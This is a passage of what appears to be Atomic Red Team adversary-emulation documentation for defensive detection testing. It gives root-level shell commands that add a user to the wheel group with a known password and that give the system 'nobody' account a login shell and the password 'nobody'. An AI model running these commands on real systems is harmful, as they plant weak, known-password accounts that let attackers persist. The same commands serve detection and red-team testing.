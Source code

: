 




#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
pw useradd art -g wheel -s /bin/sh
echo $(openssl passwd -1 art) | pw mod user testuser1 -h 0
pw lock art
pw usermod art -e +1d
pw unlock art
pw user mod art -e +99d
su art
whoami
exit
```

#### Cleanup Commands:
```sh
rmuser -y art
```





<br/>
<br/>

## Atomic Test #12 - Login as nobody (Linux)
An adversary may try to re-purpose a system account to appear legitimate. In this test change the login shell of the nobody account, change its password to nobody, su to nobody, exit, then reset nobody's shell to /usr/sbin/nologin.

**Supported Platforms:** Linux


**auto_generated_guid:** 3d2cd093-ee05-41bd-a802-59ee5c301b85






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
chsh --shell /bin/bash nobody
usermod --password $(openssl passwd -1 nobody) nobody
su nobody
whoami
exit
```
